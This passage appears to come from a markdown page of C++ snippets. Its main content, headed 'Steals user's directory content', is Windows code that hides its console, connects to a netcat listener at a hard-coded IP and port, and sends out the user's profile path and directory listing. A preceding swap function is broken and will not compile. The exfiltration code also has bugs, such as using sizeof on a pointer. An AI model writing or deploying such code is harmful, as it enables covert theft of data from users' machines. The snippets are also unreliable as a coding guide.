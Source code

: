 ```cpp
void swap(int& x, int& y) {
  int temp;
  temp=*x;
  *x=*y;
  *y=temp;
}
```

### Example: Steals user's directory content

Listen for an incoming connection with `nc -lvp 5555`:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string>

char* userDirectory()
{
    char* pPath;
    pPath = getenv ("USERPROFILE");
    if (pPath!=NULL)
    {
        return pPath;
    } else {
        perror("");
    }
}

int main()
{
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);
    addr.sin_addr.s_addr = inet_addr("192.168.0.29");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);
    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    char* pPath = userDirectory();
    send(server, pPath, sizeof(pPath), 0);

    DIR *dir;
    struct dirent *ent;
    if ((dir = opendir (pPath)) != NULL) {
        while ((ent = readdir (dir)) != NULL) {
        send(server, ent->d_name, sizeof(ent->d_name), 0);
        }
        closedir (dir);
    } else {
        perror ("");
    }
    closesocket(server);
    WSACleanup();
}
```